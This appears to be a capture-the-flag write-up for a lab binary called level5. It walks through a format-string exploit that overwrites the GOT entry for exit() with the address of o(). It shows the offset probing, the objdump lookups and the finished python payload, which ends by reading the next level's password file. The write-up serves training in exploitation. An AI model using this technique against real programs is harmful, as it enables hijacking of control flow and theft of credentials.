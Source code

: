 ### 1. Find the offset of argument in the stack

```bash
$ ./level5
AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAA200.b7fd1ac0.b7ff37d0.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.bf000a78.b7fdd000.0.b7e5ec73.8048299.0.0.1.bffff91c.2f.bffff76c.b7fd0ff4.8048520.8049818.1.804835d.b7fd13e4.16.8049818.8048541.ffffffff.b7e5edc6.b7fd0ff4.b7e5ee55.b7fed280.0.bffff768.804850f.8048520.0.0
                              ^
                     The argument is here
```

So we get an offset of 4.

### 2. Find the offset of exit() in the GOT

```bash
$ objdump -R ./level5

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
...
08049838 R_386_JUMP_SLOT   exit
...
```

### 3. Find the address of o()

```bash
$ objdump -t ./level5
...
080484a4 g     F .text  0000001e              o
...
```

### 4. Write payload

We write the address of exit() in GOT, 134513824 chars (to get 0x080484a4 in the next %n use in format), and %4$n to write in the address of the fourth arg.

### 5. execute with exploit

```bash
$ (python -c 'print "\x38\x98\x04\x08%134513824x%4$n"'; cat) | ./level5
cat /home/user/level6/.pass
```
